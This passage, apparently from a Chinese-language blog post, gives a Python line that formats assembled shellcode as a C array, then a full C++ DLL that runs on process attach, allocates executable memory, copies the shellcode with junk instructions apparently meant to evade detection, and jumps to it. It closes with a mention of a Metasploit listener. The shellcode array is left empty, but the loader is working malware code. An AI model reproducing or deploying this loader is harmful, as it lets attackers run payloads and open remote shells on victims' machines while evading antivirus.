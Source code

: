 ```python
    print("unsigned char buf[]="+str(assemble(code)).replace("\'","").replace("[","{").replace("]","}")+";")
    #print("unsigned char buf[]="+str(assemble(code)[::-1]).replace("\'","").replace("[","{").replace("]","}")+";")
```
![](https://img-blog.csdnimg.cn/8af4917f7d484affa5b79ba381a1be55.png)

最终生成dll的代码如下：
```cpp
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////

#define fucku __asm{mov eax,eax}
HANDLE hThread = NULL;
typedef void(__stdcall* JMP_SHELLCODE)();

DWORD WINAPI jmp_shellcode(LPVOID pPara)
{
	typedef int(*pfunc)(void);
	// payload
	unsigned char buf[] = {};
	fucku;
	BYTE* sc = (BYTE*)VirtualAlloc(NULL, sizeof(buf) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	fucku;
	fucku;
	//memcpy(sc,buf,sizeof(buf));
	for (int i = 0; i < sizeof(buf); i++) {
		fucku;
		sc[i] = buf[i];
	}
	pfunc shellcode = (pfunc)sc;
	__asm {
		push shellcode
		ret
	}
	LPVOID lpBase = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(lpBase, shellcode, sizeof(shellcode));
	JMP_SHELLCODE jmp_shellcode = (JMP_SHELLCODE)lpBase;
	jmp_shellcode();
	return 0;
}


////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		hThread = CreateThread(NULL, 0, jmp_shellcode, 0, 0, 0);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{
	}

	return TRUE;
}
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```
msf监听